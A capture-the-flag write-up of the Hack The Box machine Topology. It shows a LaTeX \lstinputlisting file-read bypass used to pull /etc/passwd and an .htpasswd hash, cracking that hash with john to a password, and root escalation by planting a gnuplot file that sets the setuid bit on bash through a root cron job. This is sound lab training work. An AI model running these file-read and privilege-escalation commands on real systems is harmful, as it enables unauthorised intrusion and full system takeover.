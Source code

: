 ```yaml
---
tags:
  - linux
---
```

# HTB: [Topology](https://app.hackthebox.com/machines/Topology)

## Enumerate

```console
$ sudo nmap -nv -sCV -Pn $t                                                   
[...]
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service running on port 80:

![](_/htb-topology-20231114-1.png)

There's one active link under "Software projects", the LaTeX Equation Generator. I add the vhost `latex.topology.htb` to `/etc/hosts`.

And here's the linked page, `http://latex.topology.htb/equation.php`:

![](_/htb-topology-20231114-2.png)

The index is open for that URL:

![](_/htb-topology-20231114-3.png)

The `header.tex` file has an interesting include, `listings`, which is [a vector for LFI](https://users.ece.utexas.edu/~garg/dist/listings.pdf)i:

![](_/htb-topology-20231114-4.png)

`$\lstinputlisting{/etc/passwd}$` does _not_ work.

But `$\lstinputlisting{/etc/passwd}$` does:

![](_/htb-topology-20231114-5.png)

The vhost `dev.topology.htb` is protected with basic-http-auth:

![](_/htb-topology-20231114-6.png)

The `stats.topology.htb` page has a dynamically generated stats `png`.

![](_/htb-topology-20231114-7.png)

## Exploit

I'm able to view the `.htpasswd` file at the root of the `dev.topology.htb` vhost:

![](_/htb-topology-20231114-8.png)

Here's the hash from the image above:

```text
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Cracking the hash with `john`:

```console
$ john --wordlist=~/rockyou.txt hash 
[...]
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
Session completed. 
```

The `dev.topology.htb` page looks like a draft page for a nascent software consulting business:

![](_/htb-topology-20231114-9.png)

But the creds are also valid for `ssh` login:

```console
$ ssh vdaisley@$t
[...]

vdaisley@topology:~$ cat user.txt
f6395b[...]
```

## Escalate

The `stats.topology.htb` vhost mentioned above has a `png` file showing the system load average. It appears to be updated frequently, e.g. every minute:

```console
vdaisley@topology:~$ date && ls -l /var/www/stats/files/load.png
Tue 14 Nov 2023 05:29:55 PM EST
-rw-r--r-- 1 www-data www-data 13615 Nov 14 17:29 /var/www/stats/files/load.png
```

I transfer `pspy64` to the target:

```console
$ scp pspy64 vdaisley@$t:/tmp/
vdaisley@10.10.11.217's password: 
pspy64                                                                                                       100% 3032KB 344.4KB/s   00:08    
```

And this gives me what I need:

```console
vdaisley@topology:~$ chmod +x /tmp/pspy64
vdaisley@topology:~$ /tmp/pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/11/14 17:35:56 CMD: UID=1007  PID=3163   | /tmp/pspy64
[...]
2023/11/14 17:36:01 CMD: UID=0     PID=3172   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3174   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/14 17:36:01 CMD: UID=0     PID=3175   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/14 17:36:01 CMD: UID=0     PID=3177   | /usr/sbin/CRON -f 
2023/11/14 17:36:01 CMD: UID=0     PID=3176   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/14 17:36:01 CMD: UID=0     PID=3178   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3182   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3181   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3180   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3179   | netstat -i 
2023/11/14 17:36:01 CMD: UID=0     PID=3186   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3185   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3184   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/14 17:36:01 CMD: UID=0     PID=3183   | uptime 
2023/11/14 17:36:01 CMD: UID=0     PID=3187   | tail -60 /opt/gnuplot/netdata.dat 
2023/11/14 17:36:01 CMD: UID=0     PID=3189   | gnuplot /opt/gnuplot/networkplot.plt 
^CExiting program... (interrupt)
```

So now I know `root` runs this every minute or so:

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

The command accesses files in a writable (though not readable) directory:

```console
vdaisley@topology:~$ ls -ld /opt/gnuplot
drwx-wx-wx 2 root root 4096 Jun 14 07:45 /opt/gnuplot
```

`gnuplot` has a `system` command I can exploit: <http://www.bersch.net/gnuplot-doc/system.html>

Using this approach, I'm able to run `bash` with `euid=0` and access the `root.txt` flag:

```console
vdaisley@topology:~$ echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/x.plt
vdaisley@topology:~$ sleep 60 && ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:~$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
3a2016[...]
```

## Summary

This machine is an exercise in bypassing a PHP command filter to prevent malicious LaTeX commands, but they forgot at least one: `\lstinputlisting`. This allows retrieving the `/etc/passwd` file, but more practically it allows grabbing an `.htpasswd` file from `/var/www/dev`. With that file, the username and hashed password for the foothold user is easy via `john` and the `rockyou.txt` wordlist.

Privilege escalation is done by writing a `plt` file to `/opt/gnuplot` containing this line:

```sh
system "chmod u+s /bin/bash"
```

A `cron` job runs every minute to generate the stats for `/var/www/stats`, but that `plt` file gets run and makes `bash` run with `setuid` user `root`.
